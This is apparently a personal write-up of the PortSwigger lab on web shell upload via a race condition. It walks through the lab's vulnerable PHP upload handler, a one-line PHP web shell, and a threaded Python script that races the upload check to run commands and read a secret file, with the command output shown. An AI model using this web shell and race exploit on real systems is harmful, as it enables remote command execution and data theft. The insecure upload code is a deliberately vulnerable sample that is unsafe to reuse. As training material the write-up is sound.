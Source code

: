 # Web shell upload via race condition | Dec 16, 2022

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-race-condition), you'll learn: Web shell upload via race condition! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★★★☆☆☆☆☆☆

## Background

This lab contains a vulnerable image upload function. Although it performs robust validation on any files that are uploaded, it is possible to bypass this validation entirely by exploiting a race condition in the way it processes them.

To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: `wiener:peter`

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-7/images/Pasted%20image%2020221216033346.png)

**Login as user `wiener`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-7/images/Pasted%20image%2020221216033400.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-7/images/Pasted%20image%2020221216033418.png)

In previous labs, we found the image upload function is vulnerable.

**In the lab hint, it provides the image upload function PHP code:**
```php
<?php
$target_dir = "avatars/";
$target_file = $target_dir . $_FILES["avatar"]["name"];

// temporary move
move_uploaded_file($_FILES["avatar"]["tmp_name"], $target_file);

if (checkViruses($target_file) && checkFileType($target_file)) {
    echo "The file ". htmlspecialchars( $target_file). " has been uploaded.";
} else {
    unlink($target_file);
    echo "Sorry, there was an error uploading your file.";
    http_response_code(403);
}

function checkViruses($fileName) {
    // checking for viruses
    ...
}

function checkFileType($fileName) {
    $imageFileType = strtolower(pathinfo($fileName,PATHINFO_EXTENSION));
    if($imageFileType != "jpg" && $imageFileType != "png") {
        echo "Sorry, only JPG & PNG files are allowed\n";
        return false;
    } else {
        return true;
    }
}
?>
```

**Let's break it down:**

- When we upload a file, **it'll create a temporary file, which the uploaded one**
- After that, **it checks our file contains viruse or not**, and check the file type
	- Function `checkFileType($fileName)` checks the extension is `jpg` or `png`

Armed with above information, we can see that **it's vulnerable to race condition.**

**This is because after we uploaded a file, it's still exist temporary. Also, the `checkViruses` function should take some time to work!**

So, in theory, we can still execute any commands!

Let's try that!

**To do so, we need to:**

- Create a PHP web shell:

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-7]
└─# echo "<?php system($_GET['cmd']); ?>" > webshell.php
```

**Then, to exploit race condition, I'll write a python script that continuously upload the PHP web shell:**
```py
#!/usr/bin/python3

import requests
from threading import Thread
from time import sleep
import argparse

def sendRequest(url, cookie, files, data):
    requests.post(url + 'my-account/avatar', cookies=cookie, files=files, data=data)

def receiveRequest(url, command):
    requestGET = requests.get(url + f'files/avatars/webshell.php?cmd={command}')

    if requestGET.status_code == 200 and requestGET.text != '':
        print(requestGET.text)

def main():
    url = 'https://0ad6002d040af2d7c0a5b8e200a9004e.web-security-academy.net/'

    cookie = {
        'session': 'YOUR_SESSIONID'
    }

    files = {
        'avatar': open('./webshell.php', 'rb')
    }

    data = {
        'user': 'wiener',
        'csrf': 'YOUR_CSRF_TOKEN'
    }

    # Create 200 jobs
    for job in range(200):
        Thread(target=sendRequest, args=(url, cookie, files, data)).start()
        Thread(target=receiveRequest, args=(url, args.command)).start()

if __name__ == '__main__':
    parser = argparse.ArgumentParser()
    parser.add_argument('-c', '--command', required=True, help='The command you want to execute.')
    args = parser.parse_args()

    main()
```

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-7]
└─# python3 exploit.py -c id
uid=12002(carlos) gid=12002(carlos) groups=12002(carlos)
```

It worked!

**Finally, we can `cat` the `secret` file!**
```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/File-Upload-Vulnerabilities/FUV-7]
└─# python3 exploit.py -c 'cat /home/carlos/secret'
fiLAg8UZ69fWjhobLxO4cy4q12RmCCbq
```

Nice!

# What we've learned:

1. Web shell upload via race condition